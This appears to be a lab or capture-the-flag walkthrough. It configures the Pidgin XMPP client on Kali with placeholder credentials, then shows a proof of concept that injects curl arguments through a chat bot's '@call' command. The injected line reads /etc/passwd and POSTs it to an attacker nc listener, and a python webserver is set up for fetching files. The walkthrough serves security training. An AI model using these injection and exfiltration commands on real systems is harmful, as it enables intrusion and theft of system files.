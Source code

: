 - [ ] Download `pidgin` on your Kali Machine
```
sudo apt install pidgin
```

- [ ] Run `pidgin` on your Kali Machine
```
pidgin
```

- [ ] Add account on your Kali Machine

- [ ] Configure Account Basic (Add > Basic > Login Options) on your Kali Machine
```
bestsalesman
hentai.com
172.21.yyy.yyy
Some_XMPP_pass0wrd123123
```

- [ ] Configure Account Basic (Add > Advanced) on your Kali Machine
```
5222
172.21.yyy.yyy
```

- [ ] Configure Account Proxy (Add > Proxy) on your Kali Machine
```
192.168.zzz.zzz
3128
ext_acc
SomeMessagePassword!ForGoodEmpl0yees
```

- [ ] Accept SSL Certificate Verification on your Kali Machine

- [ ] Create new instant message (Buddy List > Buddies > New Instant Message) on your Kali Machine

# Proof of Concept

## View /etc/passwd

- [ ] Set up `nc` to receive POST requests on your Kali Machine
```
nc -nlvp 80
```

- [ ] Read `/etc/passwd` and send it as a POST request to your `nc` listener using `pidgin` on your Kali Machine
```
@call abc -o/tmp/test123 -d @/etc/passwd http://192.168.xxx.xxx/abc
```

## Download files

- [ ] Set up a `python` webserver on your Kali Machine
```
python3 -m http.server 80
```
